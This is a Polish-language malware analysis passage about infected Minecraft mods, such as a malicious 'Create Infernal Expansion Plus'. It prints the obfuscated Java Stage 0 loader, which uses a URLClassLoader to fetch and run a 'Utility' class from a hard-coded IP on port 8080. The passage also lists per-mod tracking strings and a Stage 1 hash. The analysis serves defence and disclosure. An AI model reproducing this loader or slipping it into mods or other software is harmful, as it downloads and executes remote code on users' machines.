 Kod metody jest zaszyfrowany, używając `new String(new byte[]{...})` zamiast literałów ciągów tekstowych.

Z próbki D3SL "Create Infernal Expansion Plus", złośliwa wersja "Create Infernal Expansion Compat" z zainfekowanym kodem w głównej klasie modu:
```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

1. Tworzy `URLClassLoader` z adresem URL `http://[85.217.144.130:8080]/dl` ([shodan](https://www.shodan.io/host/85.217.144.130))
2. Ładuje klasę `Utility` z klasyfikatora, pobierając kod z internetu.
3. Wywołuje metodę `run` na `Utility`, przekazując inny argument typu String dla każdego zainfekowanego modułu (!). Na przykład:
   - Skyblock Core: "`-74.-10.78.-106.12`"
   - Dungeonz: "`-114.-18.38.108.-100`"
   - HavenElytra: "`-114.-18.38.108.-100`"
   - Vault Integrations: "`-114.-18.38.108.-100`"

Przekazane liczby są parsowane jako bajty przez etap 1 i zapisywane do pliku o nazwie ".ref". Wygląda na to, że są one sposobem śledzenia źródeł infekcji przez autora.

Utworzenie klasyfikatora jest hardcoded na ten adres URL i nie korzysta z adresu URL Cloudflare, którego używa Etap 1. Ponieważ ten adres IP jest teraz offline, oznacza to, że obciążenia Etapu 0 *o których obecnie wiemy* już nie działają.

## Etap 1 (`dl.jar`)

SHA-1: `dc43c4685c3f47808ac207d1667cc1eb915b2d82`

[Odszyfrowane pliki z złośliwym oprogramowaniem można znaleźć tutaj](../decomp).
